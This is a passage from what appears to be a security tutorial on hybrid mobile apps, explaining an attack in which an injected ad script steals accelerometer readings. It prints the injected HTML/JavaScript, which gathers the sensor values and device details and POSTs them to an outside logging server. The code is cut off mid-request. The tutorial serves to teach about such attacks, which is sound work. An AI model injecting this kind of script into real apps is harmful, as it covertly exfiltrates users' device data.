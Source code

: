 ![advert2](hybrid-app-tutorial-part3/accelerometer-attack.png)

What just happened is that the attack grabbed the current accelerometer data and sent it to a logging server (sitting on the same server as our ad server for conveinence). This logging server could be anything - and could reside anywhere. Now the attacker has your data! In case you are wondering this is the attack code injected into the app.

```HTML
<script>
    var result={'x':'','y':'','z':'','timestamp':''};
    try {navigator.accelerometer.getCurrentAcceleration(function (acceleration) {//success callback
        //console.log('acceleration setvars called');
        result.x=acceleration.x;
        result.y=acceleration.y;
        result.z=acceleration.z;
        result.timestamp=acceleration.timestamp;
var formData = 'attack=9'+'&result='+JSON.stringify(result)+'&device_type='+navigator.userAgent+'&platform='+navigator.platform+'&platform_version='+navigator.vendor;
        $.ajax({
            url: 'http://hybridapp.mlhale.com/api/logitems/',
            type: "POST",
            data: formData,
```